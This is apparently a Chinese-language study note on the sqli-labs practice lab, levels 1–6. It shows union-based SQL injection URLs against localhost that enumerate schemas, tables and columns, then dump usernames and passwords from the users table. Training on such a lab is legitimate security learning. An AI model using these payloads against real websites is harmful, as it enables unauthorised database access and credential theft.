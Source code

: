 ```yaml
---
tags:
  - SQL
---
```

[SQL注入](SQL注入.md)
# less-1
- 数字型
![](图片/Pasted%20image%2020241103182158.png)
![](图片/Pasted%20image%2020241103182234.png)
![](图片/Pasted%20image%2020241103182341.png)
![](图片/Pasted%20image%2020241103182451.png)
![](图片/Pasted%20image%2020241103182507.png)
字段数为3，回显点为2，3
![](图片/Pasted%20image%2020241103182739.png)
数据库名security 数据库 版本 5.7.28
逐级爆破
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata--+
![](图片/Pasted%20image%2020241103193607.png)
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()--+
![](图片/Pasted%20image%2020241103193901.png)
查询表users里的字段名，发现有多个不同的users表，有多个不同的字段
![](图片/Pasted%20image%2020241103194218.png)
限定数据库为security
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20AND%20table_schema=%27security%27--+
`SELECT * FROM users WHERE id='-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='users' AND table_schema='security'-- ' LIMIT 0,1`
![](图片/Pasted%20image%2020241103194611.png)
爆破字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),(select%20(group_concat(username,0x7e,password))%20from%20users)--+
SELECT * FROM users WHERE id='-1' union select 1,database(),(select (group_concat(username,0x7e,password)) from users)-- ' LIMIT 0,1
![](图片/Pasted%20image%2020241103195451.png)
# less-2

![](图片/Pasted%20image%2020241103195630.png)
无数据回显 证明存在注入点
![](图片/Pasted%20image%2020241103195833.png)
![](图片/Pasted%20image%2020241103195819.png)
判断字段数 order by 4报错 order by 3 无数据显示
![](图片/Pasted%20image%2020241103200137.png)
![](图片/Pasted%20image%2020241103200158.png)
判断回显点 也可以用来判断字段数
![](图片/Pasted%20image%2020241103200346.png)
逐级爆破 得到数据库名 数据库版本
![](图片/Pasted%20image%2020241103200935.png)
爆破表名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
![](图片/Pasted%20image%2020241103201248.png)
爆破字段名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%27security%27%20and%20table_name=%27users%27--+
![](图片/Pasted%20image%2020241103201455.png)
爆破字段
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,%202,%20(select%20group_concat(username,%200x7e,%20password)%20from%20security.users)--+
![](图片/Pasted%20image%2020241103201955.png)
# less-3
与less-1，less-2相似
先通过报错，判断闭合方式
![](图片/Pasted%20image%2020241103204823.png)
判断字段数
![](图片/Pasted%20image%2020241103205330.png)
判断回显点
![](图片/Pasted%20image%2020241103205455.png)
数据库相关和版本
剩下的逐级爆破
![](图片/Pasted%20image%2020241103210850.png)
![](图片/Pasted%20image%2020241103211001.png)
![](图片/Pasted%20image%2020241103211445.png)
# less-4
同理
先报错回显，看闭合方式
![](图片/Pasted%20image%2020241103223356.png)
![](图片/Pasted%20image%2020241103223502.png)
剩下的同上
# less-5
无页面回显点 但是有报错回显
![](图片/Pasted%20image%2020241104181803.png)
[猜解](SQL注入.md#^b4610c)
# less-6
与less-5同理 id 闭合方式不同




